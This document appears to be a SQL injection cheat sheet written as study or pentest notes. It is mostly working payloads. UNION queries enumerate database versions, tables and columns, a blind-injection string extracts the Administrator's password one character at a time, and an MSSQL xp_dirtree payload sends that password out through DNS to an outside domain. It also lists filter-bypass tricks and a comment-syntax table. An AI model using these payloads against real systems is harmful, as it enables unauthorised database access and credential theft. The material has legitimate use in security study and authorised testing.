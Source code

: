 ### DB Enumeration

* See cheat sheet for DB-specific queries
* DB version enumeration
  * `' UNION SELECT version(),database()--`
* List tables
  * `' UNION SELECT table_name,NULL from information_schema.tables--`
  * `' UNION SELECT table_name,NULL from information_schema.tables WHERE table_schema=database()--`
* List columns
  * `' UNION SELECT column_name,NULL from information_schema.columns where table_name='name'--`
* List all databases on instance:
  * `SHOW DATABASES;`
  * ` UNION SELECT DISTINCT table_schema from information_schema.tables--`

### Blind SQL Injection

* Blind SQL injection involve performing SQL injection where HTTP responses don't contain the results of the SQL query or error details.
* We trigger SQL errors or time delays as per cheat sheet instead
* Example of character by character PW enumeration (if case is right, then output will show):
  * `xyz' AND (SELECT CASE WHEN (username = 'Administrator' AND  SUBSTRING(password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a`

### Out Of Band SQL Injection

* Out-of-band techniques all an attacker an alternative vector to infer responses to SQL injections
* Data exfiltration with DNS:
  * `'; declare @p varchar(1024);set @p=(SELECT password FROM users  WHERE username='Administrator');exec('master..xp_dirtree  "//'+@p+'.out_domain.net/a"')-- `

### SQL Injection Filter Bypasses

* Mixed-case keywords for case-sensitive keyword filter
  * `'uNiOn SeleCT ...`
* Wrapped keywords for case-insensitive non-recursive keyword filter
  * `'UNIunionON SELselectECT ...`
* Hex encoding to bypass blocked quotation character ('') for strings
  * `SELECT password from USERS where name=0x61646d696e`, where 0x61646d696e is hex for admin
* Inline comments to avoid whitespace
  * `x'/**/or/**/1=1--`

### Injection Cheat Sheet

#### Comments

| DB         | Comment Style                                                |
| ---------- | ------------------------------------------------------------ |
| Oracle     | `--comment`                                                  |
| Microsoft  | `--comment`<br />`/*comment*/`                               |
| PostgreSQL | `--comment`<br />`/*comment*/`                               |
| MySQL      | `-- comment` (note the space)<br />`#comment`<br />`/*comment*/` |
